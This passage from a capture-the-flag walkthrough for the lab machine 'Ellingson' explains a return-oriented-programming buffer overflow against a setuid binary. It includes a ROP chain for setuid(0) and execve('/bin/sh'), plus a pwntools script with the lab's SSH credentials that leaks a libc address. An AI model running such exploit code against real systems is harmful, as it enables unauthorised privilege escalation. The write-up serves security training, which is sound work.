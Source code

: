###### Nota :
Libc contains some security mitigations where when you call system() with /bin/sh as argument it drops the privileges (if euid != uid).

we also have to found address of "puts" "/bin/sh" "execve" "setuid", and add the "offset" to address of fucntion in libc, for example :

```
readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep puts 
libc_sh =0x1b3e9a
```

```
setuid = offset +libc_setuid
```
##### Asm code :
The asm code of c code :
setuid(0);
execve("/bin/sh",Null,Null);

```
pop rdi; ret # frist arg
0x0
call adresse_of_setuid
pop rdi; ret
adress_of(/bin/sh)
pop rsi; ret  # second arg Null(0x00)
0x0
pop rdx; ret # third arg Null(0x00)
0x00
call adress_of_execve
```

I used the python package pwntools to interact with the binary in the remote machine via ssh like :

```
s = ssh(host='Ellingson.htb',user='margo',password='iamgod$08')
p= s.process('/usr/bin/garbage')
````

### Exploit [code](https://github.com/roughiz/Ellingson-walktrough/blob/master/exploit_manu.py) (manually)
```
import struct, binascii
from pwn import * 
s = ssh(host='Ellingson.htb',user='margo',password='iamgod$08')
p= s.process('/usr/bin/garbage')

# Stage 1 Leak static adressess in the binary : objdump -D /usr/bin/garbage | grep (puts/main)
#401050:	ff 25 d2 2f 00 00    	jmpq   *0x2fd2(%rip)        # 404028 <puts@GLIBC_2.2.5>
# for rdi : rp-lin-x64 -f garbage -r 1 | grep "pop rdi"
plt_main= struct.pack('<Q', 0x401619) # main
plt_put = struct.pack('<Q', 0x401050)
got_put = struct.pack('<Q', 0x404028)
pop_rdi = struct.pack('<Q', 0x0040179b) 

junk = "A"*136 

payload = junk+pop_rdi+got_put+plt_put +plt_main  #we print the adsress of fct puts from libc after been charged and with a random offset, and we back to main again 
p.recvuntil("password:")
p.sendline(payload)
p.recvuntil("denied.\n") 

leaked_puts = p.recv()[:6].strip().ljust(8, '\x00') # error take me a lot of time, i have a wrong leaked addresse cause , it take 8 byte and adresse was about 6 byte so i have to read just the first 6 bytes
```